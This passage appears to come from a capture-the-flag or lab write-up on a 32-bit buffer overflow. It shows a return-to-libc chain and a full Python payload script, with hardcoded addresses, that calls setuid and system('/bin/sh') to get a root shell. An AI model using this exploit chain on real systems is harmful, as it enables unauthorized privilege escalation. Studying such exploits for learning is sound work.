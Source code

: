 ```
b'A'*-x18 + b'BBBB' + gets + pop ebp; ret + address from exit to nullify + 4 * (gets + pop ebp;ret + address to nullify) + setuid + pop ebp; ret + 4 0x00 bytes + system + exit + address of "/bin/sh"
```

Right after `exit` is where we will point our `gets`. Right now
our payload is really big, so ypu should start using a python3
script to run it, if you haven't already.

Mine ended looking like this:

```
import sys
import struct

pop_ret =  struct.pack("I", 0x080485fb)
gets = struct.pack("I", 0xf7e5afc0)

payload = b'A' * 0x18
payload += b'BBBB'
payload += gets
payload += pop_ret
payload += struct.pack("I", 0xffffd288) # address from exit to nullify

for i in range(4):
    payload += gets
    payload += pop_ret
    payload += struct.pack("I", 0xffffd280 + i) # address of byte to nullify

payload += struct.pack("I", 0xf7eadd60) # setuid
payload += pop_ret
payload += b'CCCC' # will be nullified afterwards
payload += struct.pack("I", 0xf7e36850) # system
payload += struct.pack("I", 0xf7e2a8BB) # exit, with 'BB' instead of null byte
payload += struct.pack("I", 0xf7f597c8) # address to /bin/sh

sys.stdout.buffer.write(payload)
```

If `setuid` doesn't work, you may have to execute another program (that
you code yourself) that gives you a shell, as root.

You can call a command like `execlp` or `execve` from libc to
execute a simple python3 script like this:

```
__import__('os').system('/bin/sh -c')
```
